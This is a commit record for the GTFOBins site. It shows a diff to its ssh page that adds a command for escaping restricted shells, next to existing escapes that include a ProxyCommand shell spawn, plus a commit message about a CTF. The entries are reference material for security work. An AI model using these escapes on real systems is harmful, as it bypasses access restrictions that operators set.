

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/ssh.md, in a window 1280 px wide and 900 px high. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update ssh.md
I added lines 6 and 7 and it was the command that I used to escape a restricted shell during the HTB Cyber Apocalypse 2023 CTF. I found the command at https://0xffsec.com/handbook/shells/restricted-shells/ under the "From the Outside" section.

```diff
--- a/_gtfobins/ssh.md
+++ b/_gtfobins/ssh.md
@@ -3,6 +3,8 @@ functions:
   shell:
     - description: Reconnecting may help bypassing restricted shells.
       code: ssh localhost $SHELL --noprofile --norc
+    - description: Connecting a different way may help bypassing restricted shells.
+      code: ssh localhost -t "bash --noprofile"
     - description: Spawn interactive shell through ProxyCommand option.
       code: ssh -o ProxyCommand=';sh 0<&2 1>&2' x
     - description: Spawn interactive shell on client, requires a successful connection towards `host`.
```
